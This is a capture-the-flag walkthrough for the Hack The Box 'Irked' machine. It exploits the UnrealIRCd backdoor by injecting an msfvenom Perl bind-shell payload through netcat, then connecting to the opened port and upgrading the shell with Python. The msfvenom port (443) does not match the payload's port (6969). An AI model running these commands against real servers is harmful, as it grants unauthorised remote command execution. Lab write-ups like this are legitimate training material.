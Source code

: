 I find an exploit tutorial [here](https://metalkey.github.io/unrealircd-3281-backdoor-command-execution.html) which uses msfvenom, but foregoes the use of msfconsole...this might be worth a try.

First we use msfvenom to craft a bind-shell
```

msfvenom -p cmd/unix/bind_perl lhost=10.10.10.117 lport=443

```
The walthrough doesn't specify a port, so the default 4444 is chosen, but I've come across HTB machines with defences that block that port previously, so avoid it if possible,
preferring to use ports that the target might consider 'safe' but is unused.

Msfvenom produces this...

```

perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,6969,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'

```

following the guide, I connect to the target on one of its IRC ports then before the authentication/identification can complete
I insert the perl payload after entering `AB;`...

```

root@kali:~/HTB/vip/irked# nc -vn 10.10.10.117 8067
(UNKNOWN) [10.10.10.117] 8067 (?) open
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,6969,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'
:irked.htb 451 AB;perl :You have not registered
ERROR :Closing Link: [10.10.14.16] (Ping timeout)


```

before the `Ping timeout` I connect to the target on port 6969 with netcat...

```

nc -nv 10.10.10.117 6969

```

and get a shell...I improve the shell immediately with a python command...

```

python -c 'import pty;pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$

```
